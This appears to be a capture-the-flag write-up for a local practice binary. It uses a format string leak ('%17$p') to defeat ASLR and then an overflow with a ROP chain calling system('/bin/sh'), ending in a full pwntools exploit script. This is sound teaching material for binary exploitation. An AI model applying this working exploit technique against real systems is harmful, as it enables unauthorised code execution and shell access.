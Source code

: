 # Format String Vulnerability to ROP Chain Exploit

## Vulnerability Analysis

### Binary Overview
The target binary `vuln` contains a format string vulnerability that allows arbitrary memory reads, followed by a potential buffer overflow.

### Key Vulnerabilities
1. **Format String Vulnerability**: The first user input is passed directly to `printf` without proper formatting, allowing format string attacks.
2. **Buffer Overflow**: The second input uses an unsafe function that doesn't check bounds.

## Exploitation Strategy

### Information Leak via Format String

The format string vulnerability is exploited to leak a libc address, bypassing ASLR.

```python
p.sendline(b'%17$p')
response = p.recvline()
leak = int(response.split(b' ')[-1].strip(), 16)
```

**Why `%17$p` works**:
- The 17th positional parameter on the stack contains `__libc_start_call_main+120`
- This provides a reliable libc address to calculate the libc base

### Step 2: Calculate Libc Base and Essential Addresses

```python
libc_base = leak - 0x29ca8
system_addr = libc_base + libc.symbols['system']
binsh_addr = libc_base + next(libc.search(b'/bin/sh'))
pop_rdi = libc_base + 0x2a145
```

**Calculations**:
- `0x29ca8` = offset of `__libc_start_call_main+120` from libc base
- `pop_rdi` gadget found at offset `0x2a145` in libc
- `system` and `/bin/sh` offsets obtained from libc symbols

### Step 3: Buffer Overflow and ROP Chain

The second input triggers a buffer overflow to hijack control flow:

```python
offset = 40  # Distance to return address
payload = b'A' * offset
payload += p64(pop_rdi)      # Load /bin/sh into RDI
payload += p64(binsh_addr)   # Argument for system()
payload += p64(ret)          # Stack alignment
payload += p64(system_addr)  # Call system("/bin/sh")
```

## Technical Details

### x64 Calling Convention
- **First argument**: RDI register
- **Function call**: CALL instruction
- **Stack alignment**: 16-byte boundary (often requires RET gadget)

### ROP Chain Construction
1. **Overwrite return address** with `pop rdi` gadget
2. **Set RDI** to point to "/bin/sh" string
3. **Call system()** to execute shell
4. **Include RET gadget** for proper stack alignment

## Exploit Code

```python
#!/usr/bin/env python3
from pwn import *

# Initialize process and ELF objects
p = process('./vuln')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
elf = ELF('./vuln')

# Step 1: Leak libc address via format string
p.recvuntil(b"What do you want? ")
p.sendline(b'%17$p')
response = p.recvline()
leak = int(response.split(b' ')[-1].strip(), 16)
log.info(f"Leaked address: {hex(leak)}")

# Step 2: Calculate essential addresses
libc_base = leak - 0x29ca8
log.info(f"Libc base address: {hex(libc_base)}")

system_addr = libc_base + libc.symbols['system']
binsh_addr = libc_base + next(libc.search(b'/bin/sh'))
pop_rdi = libc_base + 0x2a145
ret = 0x0000000000401016  # Stack alignment gadget

log.info(f"system: {hex(system_addr)}")
log.info(f"/bin/sh: {hex(binsh_addr)}")
log.info(f"pop rdi: {hex(pop_rdi)}")

# Step 3: Trigger buffer overflow with ROP chain
p.recvuntil(b"Wanna Cry about that? ")

offset = 40  # Buffer offset to return address
payload = b'A' * offset
payload += p64(pop_rdi)      # Load /bin/sh address into RDI
payload += p64(binsh_addr)   # Argument for system()
payload += p64(ret)          # Stack alignment
payload += p64(system_addr)  # Call system()

p.sendline(payload)
p.interactive()
```

![result](./img/result.png)